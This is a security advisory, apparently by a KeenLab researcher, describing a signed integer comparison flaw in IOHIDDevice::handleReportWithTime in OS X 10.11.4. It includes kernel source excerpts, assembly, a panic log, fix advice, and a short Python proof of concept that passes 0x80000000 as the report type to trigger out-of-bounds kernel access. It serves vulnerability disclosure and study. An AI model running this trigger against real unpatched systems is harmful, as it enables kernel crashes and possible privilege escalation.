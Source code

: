 ##Interesting Integer overflow in enum comparison IOHIDDevice::handleReportWithTime in 10.11.4

By flanker from KeenLab, found at Jan 2016.

There exists a signed integer comparison overflow in `IOHIDDevice::_getReport` and then `handleReportWithTime`, which can lead to oob access/execute in `handleReportWithTime`. A normal process can leverage this vulnerability to archive potential code execution in kernel and escalate privilege.

##Vulnerability analysis
When `IOHIDLibUserClient::_getReport` is called via externalMethod, the code execution flow will be redirected in `IOHIDDevice::getReport` and then called into `IOHIDDevice::handleReportWithTime`, 

```
1281IOReturn IOHIDLibUserClient::getReport(IOMemoryDescriptor * mem, uint32_t * pOutsize, IOHIDReportType reportType, uint32_t reportID, uint32_t timeout, IOHIDCompletion * completion)
1282{
1283    IOReturn ret = kIOReturnBadArgument;
1284
1285    // VTN3: Is there a real maximum report size? It looks like the current limit is around
1286    // 1024 bytes, but that will (or has) changed. 65536 is above every upper limit
1287    // I have seen by a few factors.
1288    if (*pOutsize > 0x10000) {
1289        IOLog("IOHIDLibUserClient::getReport called with an irrationally large output size: %lu\n", (long unsigned) *pOutsize);
1290    }
1291    else if (fNub && !isInactive()) {
1292        ret = mem->prepare();
1293        if(ret == kIOReturnSuccess) {
1294            if (completion) {
1295                AsyncParam * pb = (AsyncParam *)completion->parameter;
1296                pb->fMax        = *pOutsize;
1297                pb->fMem        = mem;
1298                pb->reportType  = reportType;
1299
1300                mem->retain();
1301
1302                ret = fNub->getReport(mem, reportType, reportID, timeout, completion);
1303            }
1304            else {
1305                ret = fNub->getReport(mem, reportType, reportID);
1306
1307                // make sure the element values are updated.
1308                if (ret == kIOReturnSuccess)
1309                    fNub->handleReport(mem, reportType, kIOHIDReportOptionNotInterrupt);
1310
1311                *pOutsize = mem
```
Then `handleReport` and `handleReportWithTime` will be called.

```
2174IOReturn IOHIDDevice::handleReportWithTime(
2175    AbsoluteTime         timeStamp,
2176    IOMemoryDescriptor * report,
2177    IOHIDReportType      reportType,
2178    IOOptionBits         options)
2179{
2180    IOBufferMemoryDescriptor *  bufferDescriptor    = NULL;
2181    void *                      reportData          = NULL;
2182    IOByteCount                 reportLength        = 0;
2183    IOReturn                    ret                 = kIOReturnNotReady;
2184    bool                        changed             = false;
2185    bool                        shouldTickle        = false;
2186    UInt8                       reportID            = 0;
2187
2188    IOHID_DEBUG(kIOHIDDebugCode_HandleReport, reportType, options, __OSAbsoluteTime(timeStamp), getRegistryEntryID());
2189
2190    if ((reportType == kIOHIDReportTypeInput) && !_readyForInputReports)
2191        return kIOReturnOffline;
2192
2193    // Get a pointer to the data in the descriptor.
2194    if ( !report )
2195        return kIOReturnBadArgument;
2196
2197    if ( reportType >= kIOHIDReportTypeCount )
2198        return kIOReturnBadArgument;
2199
2200    reportLength = report->getLength();
2201    if ( !reportLength )
2202        return kIOReturnBadArgument;
2203
2204    if ( (bufferDescriptor = OSDynamicCast(IOBufferMemoryDescriptor, report)) ) {
2205        reportData = bufferDescriptor->getBytesNoCopy();
2206        if ( !reportData )
2207            return kIOReturnNoMemory;
2208    } else {
2209        reportData = IOMalloc(reportLength);
2210        if ( !reportData )
2211            return kIOReturnNoMemory;
2212
2213        report->readBytes( 0, reportData, reportLength );
2214    }
```

In Line 2197, there is  an integer signed comparison overflow. The compiler decides the `kIOHIDReportTypeCount`, which is an enum value, is signed and the assembly instruction are as follows:

```
__text:0000000000006951                 mov     r13d, 0E00002C2h
__text:0000000000006957                 jz      loc_6BBE
__text:000000000000695D                 cmp     r15d, 2
__text:0000000000006961                 jg      loc_6BBE
```
we can see `jg` is used, which indicates a signed comparison.

The `reportType` is a int32 value determined by incoming externalMethod scalar:

```
in function setReport
1355    else
1356        if ( arguments->structureInputDescriptor )
1357            ret = target->setReport( arguments->structureInputDescriptor, (IOHIDReportType)arguments->scalarInput[0], (uint32_t)arguments->scalarInput[1]);
1358        else
1359            ret = target->setReport(arguments->structureInput, arguments->structureInputSize, (IOHIDReportType)arguments->scalarInput[0], (uint32_t)arguments->scalarInput[1]);
1360
1361    return ret;
1362}
```

So an attacker can supply an overflowed negative value, i.e. 0x80000000 in scalar input and cause oob access in `handleReportWithTime`:

```
2220
2221        // The first byte in the report, may be the report ID.
2222        // XXX - Do we need to advance the start of the report data?
2223
2224        reportID = ( _reportCount > 1 ) ? *((UInt8 *) reportData) : 0;
2225
2226        // Get the first element in the report handler chain.
2227
2228        element = GetHeadElement( GetReportHandlerSlot(reportID),
2229                                  reportType);
```
We can see `reportType` is used in `GetHeadElement`, and
```
260#define GetHeadElement(slot, type)  _reportHandlers[slot].head[type]
```
Type is used as index to `head` array, so we can control the element pointer and then a virtual call follows:

```
2060        while ( element ) {
2061
2062            element->createReport(reportID, reportData, &reportLength, &element);
2063

177    virtual bool createReport( UInt8           reportID,
178                               void *        reportData, // report should be allocated outside this method
179                               UInt32 *        reportLength,
180                               IOHIDElementPrivate ** next );
```

Thus it's possible for code execution if memory is prepared.

##CrashLog
We can see a page fault is generated on oob access, indicating the negative 32bit integer has been used as index when accessing memory.
```
panic(cpu 1 caller 0xffffff800af85b8f): "vm_page_check_pageable_safe: trying to add page" "from compressor object (0xffffff800b6c35f0) to pageable queue"@/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3248.40.184/osfmk/vm/vm_resident.c:7076
Backtrace (CPU 1), Frame : Return Address
0xffffff911638b230 : 0xffffff800aedab12 mach_kernel : _panic + 0xe2
0xffffff911638b2b0 : 0xffffff800af85b8f mach_kernel : _vm_page_check_pageable_safe + 0x3f
0xffffff911638b2d0 : 0xffffff800af4a8e3 mach_kernel : _vm_fault_enter + 0x9b3
0xffffff911638b450 : 0xffffff800af4e80b mach_kernel : _vm_page_validate_cs_mapped_chunk + 0x226b
0xffffff911638b670 : 0xffffff800afcdf6d mach_kernel : _kernel_trap + 0x47d
0xffffff911638b850 : 0xffffff800afec273 mach_kernel : _return_from_trap + 0xe3
0xffffff911638b870 : 0xffffff7f8bd4c283 com.apple.iokit.IOHIDFamily : __ZN11IOHIDDevice20handleReportWithTimeEyP18IOMemoryDescriptor15IOHIDReportTypej + 0x191
0xffffff911638b9f0 : 0xffffff7f8bd4ad45 com.apple.iokit.IOHIDFamily : __ZN11IOHIDDevice12handleReportEP18IOMemoryDescriptor15IOHIDReportTypej + 0x5b
0xffffff911638ba30 : 0xffffff7f8bd486b2 com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient9getReportEP18IOMemoryDescriptorPj15IOHIDReportTypejjP15IOHIDCompletion + 0x12c
0xffffff911638ba80 : 0xffffff7f8bd4877b com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient9getReportEPvPj15IOHIDReportTypejjP15IOHIDCompletion + 0x99
0xffffff911638bad0 : 0xffffff7f8bd46c3b com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient10_getReportEPS_PvP25IOExternalMethodArguments + 0x13b
0xffffff911638bb30 : 0xffffff800b4b5958 mach_kernel : __ZN13IOCommandGate9runActionEPFiP8OSObjectPvS2_S2_S2_ES2_S2_S2_S2_ + 0x1a8
0xffffff911638bba0 : 0xffffff7f8bd47556 com.apple.iokit.IOHIDFamily : __ZN18IOHIDLibUserClient14externalMethodEjP25IOExternalMethodArgumentsP24IOExternalMethodDispatchP8OSObjectPv + 0x64
0xffffff911638bbe0 : 0xffffff800b4df277 mach_kernel : _is_io_connect_method + 0x1e7
0xffffff911638bd20 : 0xffffff800af97cc0 mach_kernel : _iokit_server + 0x5bd0
0xffffff911638be30 : 0xffffff800aedf283 mach_kernel : _ipc_kobject_server + 0x103
0xffffff911638be60 : 0xffffff800aec28b8 mach_kernel : _ipc_kmsg_send + 0xb8
0xffffff911638bea0 : 0xffffff800aed2665 mach_kernel : _mach_msg_overwrite_trap + 0xc5
0xffffff911638bf10 : 0xffffff800afb8bda mach_kernel : _mach_call_munger64 + 0x19a
0xffffff911638bfb0 : 0xffffff800afeca96 mach_kernel : _hndl_mach_scall64 + 0x16
      Kernel Extensions in backtrace:
         com.apple.iokit.IOHIDFamily(2.0)[8D04EA14-CDE1-3B41-8571-153FF3F3F63B]@0xffffff7f8bd46000->0xffffff7f8bdbdfff
            dependency: com.apple.driver.AppleFDEKeyStore(28.30)[C31A19C9-8174-3E35-B2CD-3B1B237C0220]@0xffffff7f8bd3b000

BSD process name corresponding to current thread: Python
```
##POC


KitLib Python POC Code:

    import kitlib
    h = kitlib.openMultipleSvc('IOUSBHostHIDDevice', [0,0])[1]
    kitlib.callConnectMethod(h, 12, [0x80000000L]*3, '', 0, 1)



Tested on macmini/macbooks with usb keyboard connected (for this specific IOUSBHIDDevice service). Of course other services extending IOHIDDevice can also be affected. Other models can also apply with configuration parameter tunned.
Changing the first parameter to like 0x8000ffff and we can observe that the fault address has changed correspondingly, showing the possibility of exploitation.

##Fix advice and status
add check on reportType for negative, only accept positive value. 
This is fixed in 10.11.5 by replacing jg with ja.

